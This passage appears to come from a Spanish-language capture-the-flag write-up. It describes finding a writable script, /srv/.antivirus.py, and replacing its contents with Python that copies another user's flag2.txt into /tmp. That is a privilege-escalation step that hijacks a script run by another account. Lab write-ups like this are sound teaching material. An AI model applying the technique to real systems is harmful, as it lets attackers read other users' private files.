 <figure><img src="../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado un archivo interesante llamado `/srv/.antivirus.py` al que podemos acceder, además de los archivos que ya hemos encontrado. Procedamos con su análisis.

Editamos el archivo `".antivirus.py"` para que contenga lo siguiente:

```python
with open('/tmp/test', 'w') as f:
    with open('/home/devops/flag2.txt', 'r') as source_file:
        f.write(source_file.read())
```
